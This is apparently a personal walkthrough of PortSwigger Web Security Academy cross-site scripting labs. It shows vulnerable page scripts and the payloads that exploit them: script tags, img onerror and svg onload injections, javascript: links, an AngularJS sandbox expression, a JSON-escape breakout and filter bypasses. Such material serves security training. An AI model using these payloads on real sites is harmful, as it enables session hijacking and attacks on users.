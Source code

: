 ```yaml
---
description: https://portswigger.net/web-security/cross-site-scripting
---
```


# Cross-site scripting

### Lab: Reflected XSS into HTML context with nothing encoded

This lab contains a simple reflected cross-site scripting vulnerability in the search functionality.

```
/?search=test
<h1>1 search results for 'test'</h1>

<script>alert(0)</script>
```

### Lab: Stored XSS into HTML context with nothing encoded

This lab contains a stored cross-site scripting vulnerability in the comment functionality.

`csrf=dEw6a3DaskdxmTVrwvlONQj1sGecwy30&postId=6&comment=`**`%3Cscript%3Ealert%280%29%3C%2Fscript%3E`**`+This+is+a+comment.&name=test&email=test%40test.com&website=https%3A%2F%2Fwww.test.com`

```
<script>alert(0)</script>
```

### Lab: DOM XSS in document.write sink using source location.search

This lab contains a DOM-based cross-site scripting vulnerability in the search query tracking functionality. It uses the JavaScript document.write function, which writes data out to the page. The document.write function is called with data from location.search, which you can control using the website URL.

```
<script>
	function trackSearch(query) {
		document.write('<img src="/resources/images/tracker.gif?searchTerms='+query+'">');
	}
	var query = (new URLSearchParams(window.location.search)).get('search');
	if(query) {
		trackSearch(query);
	}
</script>
```

**Search -> 123456789**

```
<script>
...
<img src="/resources/images/tracker.gif?searchTerms=123456789">
...
</script>
```

**Search ->**

```
"><svg onload=alert(1)>
```

### Lab: DOM XSS in document.write sink using source location.search inside a select element

This lab contains a DOM-based cross-site scripting vulnerability in the stock checker functionality. It uses the JavaScript document.write function, which writes data out to the page. The document.write function is called with data from location.search which you can control using the website URL. The data is enclosed within a select element.

```
<script>
	var stores = ["London","Paris","Milan"];
	var store = (new URLSearchParams(window.location.search)).get('storeId');
	document.write('<select name="storeId">');
	if(store) {
		document.write('<option selected>'+store+'</option>');
	}
	for(var i=0;i<stores.length;i++) {
		if(stores[i] === store) {
			continue;
		}
		document.write('<option>'+stores[i]+'</option>');
	}
	document.write('</select>');
</script>
```

```
/product?productId=1&storeId=London"><script>alert(1)</script>"
London">"

/product?productId=1&storeId=Milan"><script>alert(1)</script>"
Milan">"

product?productId=1&storeId="><img src=1 onerror=alert(1)>
```

### Lab: DOM XSS in innerHTML sink using source location.search

This lab contains a DOM-based cross-site scripting vulnerability in the search blog functionality. It uses an innerHTML assignment, which changes the HTML contents of a div element, using data from location.search.

```
<script>
	function doSearchQuery(query) {
		document.getElementById('searchMessage').innerHTML = query;
	}
	var query = (new URLSearchParams(window.location.search)).get('search');
	if(query) {
		doSearchQuery(query);
	}
</script>
```

```
<img src=1 onerror=alert(document.domain)>
```

### Lab: DOM XSS in jQuery anchor href attribute sink using location.search source

This lab contains a DOM-based cross-site scripting vulnerability in the submit feedback page. It uses the jQuery library's $ selector function to find an anchor element, and changes its href attribute using data from location.search.

```
<script>
	$(function() {
		$('#backLink').attr("href", (new URLSearchParams(window.location.search)).get('returnPath'));
	});
</script>
```

```
/feedback?returnPath=/123456789
<a id="backLink" href="/123456789">Back</a>

/feedback?returnPath=javascript:alert(document.domain)
<a id="backLink" href="javascript:alert(document.domain)">Back</a>
```

### Lab: DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded

This lab contains a DOM-based cross-site scripting vulnerability in a AngularJS expression within the search functionality.

AngularJS is a popular JavaScript library, which scans the contents of HTML nodes containing the ng-app attribute (also known as an AngularJS directive). When a directive is added to the HTML code, you can execute JavaScript expressions within double curly braces. This technique is useful when angle brackets are being encoded.

```
<body ng-app>
```

**Search ->**

```
{{$on.constructor('alert(0)')()}}
```

### Lab: Reflected DOM XSS

This lab demonstrates a reflected DOM vulnerability. Reflected DOM vulnerabilities occur when the server-side application processes data from a request and echoes the data in the response. A script on the page then processes the reflected data in an unsafe way, ultimately writing it to a dangerous sink.

**Search -> 12345678**

```
GET /?search=12345678 HTTP/1.1
GET /search-results?search=12345678 HTTP/1.1
{"results":[],"searchTerm":"12345678"}
```

```
/resources/js/searchResults.js
eval('var searchResultsObj = ' + this.responseText);
```

**Search ->**

```
 \"-alert(1)}//

{"results":[],"searchTerm":"\\"-alert(1)}//"}
```

### Lab: Stored DOM XSS

This lab demonstrates a stored DOM vulnerability in the blog comment functionality.

```
GET /post/comment?postId=9 HTTP/1.1
{
    "avatar":"",
    "website":"https://www.test.com",
    "date":"2021-11-21T22:51:20.697595457Z",
    "body":"test",
    "author":"test"
}
```

```
<script>alert(0)</script>
```

Website encoded first <> angle brackets. If we add <> at the beginning we can bypass it. But we can not. We can see the cause in the response.

```
"body":"<><script>alert(0)<\/script>",
"author":"<><script>alert(0)<\/script>"
```

JS added \ before /. So we can not use this payload. Try another one.

```
<><img src=1 onerror=alert(1)>
```

> In an attempt to prevent XSS, the website uses the JavaScript replace() function to encode angle brackets.
